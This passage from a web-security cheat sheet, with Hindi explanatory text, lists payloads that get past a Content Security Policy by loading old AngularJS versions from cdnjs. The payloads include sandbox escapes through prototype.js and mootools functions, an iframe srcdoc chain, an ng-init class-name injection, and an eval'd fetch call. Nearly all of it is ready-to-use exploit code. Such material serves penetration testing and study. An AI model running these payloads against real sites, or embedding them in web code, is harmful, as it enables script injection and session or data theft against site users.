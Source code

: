 ```xml

With some bypasses from: https://blog.huli.tw/2022/08/29/en/intigriti-0822-xss-author-writeup/
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js></script>
<iframe/ng-app/ng-csp/srcdoc="
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.0/angular.js>
</script>
<img/ng-app/ng-csp/src/ng-o{{}}n-error=$event.target.ownerDocument.defaultView.alert($event.target.ownerDocument.domain)>"
>
```
#### Payloads using Angular + a library with functions that return the `window` object ([check out this post](https://blog.huli.tw/2022/09/01/en/angularjs-csp-bypass-cdnjs/)):

{% hint style="info" %}
यह पोस्ट दिखाता है कि आप `cdn.cloudflare.com` (या किसी अन्य अनुमत JS लाइब्रेरी रिपॉजिटरी) से सभी **लाइब्रेरीज़** को **लोड** कर सकते हैं, प्रत्येक लाइब्रेरी से सभी जोड़े गए फ़ंक्शंस को निष्पादित कर सकते हैं, और **यह जांच सकते हैं कि कौन से फ़ंक्शंस कौन सी लाइब्रेरीज़ से `window` ऑब्जेक्ट लौटाते हैं**।
{% endhint %}
```markup
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js" /></script>
<div ng-app ng-csp>
{{$on.curry.call().alert(1)}}
{{[].empty.call().alert([].empty.call().document.domain)}}
{{ x = $on.curry.call().eval("fetch('http://localhost/index.php').then(d => {})") }}
</div>


<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
{{$on.curry.call().alert('xss')}}
</div>


<script src="https://cdnjs.cloudflare.com/ajax/libs/mootools/1.6.0/mootools-core.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
{{[].erase.call().alert('xss')}}
</div>
```
Angular XSS एक क्लास नाम से:
```html
<div ng-app>
<strong class="ng-init:constructor.constructor('alert(1)')()">aaa</strong>
</div>
```
#### Google recaptcha JS कोड का दुरुपयोग
